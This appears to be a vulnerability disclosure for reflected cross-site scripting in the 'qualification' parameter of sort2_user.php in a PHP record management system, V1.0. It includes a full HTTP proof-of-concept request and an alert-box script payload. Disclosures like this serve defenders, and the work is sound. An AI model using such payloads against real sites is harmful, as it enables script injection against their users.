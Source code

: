 #### BUG_AUTHOR:ZhouGang
# Record management system – reflected XSS on (sort2_user.php qualification parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort2_user.php

On this page, qualificationparameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Request:
```
POST http://192.168.0.100/Personnel_record_management_system/sort2_user.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.100
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/sort1_user.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

qualification=Sort+Personnel+by+Qualification"><script>alert(1)</script>&filter2=
```
## Payload：
"><script>alert(1)</script>
## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/42ea96d7-448e-4233-a653-ca65c8fbf06a">
